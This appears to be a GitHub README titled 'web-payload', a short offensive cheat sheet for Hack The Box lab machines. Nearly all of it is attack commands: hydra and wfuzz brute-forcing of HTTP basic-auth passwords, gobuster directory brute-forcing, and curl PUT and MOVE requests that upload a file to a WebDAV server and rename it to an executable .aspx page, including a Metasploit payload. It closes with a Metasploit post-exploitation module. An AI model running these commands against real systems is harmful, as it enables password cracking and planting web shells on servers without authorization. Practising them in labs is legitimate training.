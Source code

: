 # web-payload  
Portal for any payload  
## Brute force web application 
### Basic Authentication  
`hydra -L usernames -P passwords -s 8080 -f <domain> http-get /`  
`wfuzz -u http://ethereal.htb:8080 --basic alan:FUZZ -w passwords.txt`  
***to enumerate every subdoamin there has to be an entry for that subdomain in /etc/hosts that points to the ip of the box , that’s why I added the HOST HTTP header (-H "HOST:FUZZ.redcross.htb") , it solves the problem.***  
## Directory Bruteforcing
`gobuster -w <Wordlist> -u http://10.10.10.15 -t 50 -x aspx,txt,html  `  
## WebDav
`davtest -url http://<IP>`  
### Manual  
```
echo 0xdf > test.txt  
root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt  
root@kali# curl http://10.10.10.15/df.txt  
```
or  
  
`curl -X PUT http://10.10.10.15/df.aspx -d @test.txt`  
  
### Manual for MOVE Method  
```
curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt  
curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 
```
  
## Metasploit post exploitation
`post/multi/recon/local_exploit_suggester`  
